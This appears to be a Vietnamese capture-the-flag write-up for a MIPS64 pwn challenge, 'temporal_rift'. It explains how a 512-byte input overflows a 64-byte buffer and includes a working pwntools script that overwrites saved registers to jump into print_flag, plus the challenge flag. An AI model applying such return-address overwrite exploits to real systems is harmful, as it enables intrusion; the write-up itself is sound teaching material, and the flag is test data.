










# temporal_rift





Bài này dùng `arch = MIPS64` nên các thanh ghi và cấu trúc sẽ khác. Vì vậy để debug bằng gdb sẽ khác:

```bash
# Terminal 1
qemu-mips64 -g 1234 -L /usr/mips64-linux-gnuabi64/ ./temporal_rift

# Terminal 2
gdb-multiarch ./temporal_rift
gef➤  set architecture mips:isa64
gef➤  target remote localhost:1234

```



Bài này cũng cho ta chọn các lựa chọn, không có gì đặc biệt cả. Vì vậy ta sẽ phân tích kĩ hơn trong ida:





Khi ta chọn `3. Send Command`, chương trình sẽ cho ta nhập `512 bytes` vào `input`, tuy nhiên sau khi vào`process command()`, chương trình lại dùng hàm `memcpy` để copy từ `input` -> `cmd_buffer`.Mà `cmd_buffer` chỉ có 64 bytes => ở đây có lỗi `bof`



Cuối hàm, chương trình nhảy tới địa chỉ của `$ra` => ta cần thay đổi địa chỉ của `$ra`



Vì vậy ta thấy ở đây theo `little-edian` thì `$ra` nằm ở địa chỉ cách input của chúng ta `97 bytes`. TUY NHIÊN ở đây chương trình dùng `Big-edian` => Ta phải bắt đầu ghi từ byte thứ `104`



Ta để ý thì trong binary có hàm `print_flag`và `PIE off` nên ta hoàn toàn có thể điều hướng chương trình để in flag



Mình nhảy vào từ đầu hàm flag thì bị lỗi `sigsegv`, lỗi ở đây là do chương trình tính toán sai `$gp` vì vậy mình sẽ truyền cho `$gp` địa chỉ hợp lệ, và sau đó nhảy qua đoạn set `$gp` ở đầu hàm `print_flag` để thanh ghi không bị thay đổi.

## solvescript
```python
#!/usr/bin/python3
# ret to 0x0000000120003F80
from pwn import *

context.arch = 'mips64'
context.endian = 'big'

qemu_lib_path = '/usr/mips64-linux-gnuabi64/'
p = process(['qemu-mips64', '-L', qemu_lib_path, './temporal_rift'])
#p = process(['qemu-mips64', '-g', '1234', '-L', qemu_lib_path, './temporal_rift'])
#p = remote("node-4.mcsc.space",35481)
#input("ENTER")
p.sendlineafter(">>> ",b"3")

payload = b'a'*88
payload += p64(0x00000001200b51c0) #valid $gp
payload += p64(0x1200af080) #valid $s8 to store flag
payload += p64(0x0000000120003FA0)

p.sendlineafter(">>> ",payload)

p.interactive()

```



**FLAG**: `esch{signals-interrupt-flow-raven-shadow-8338}`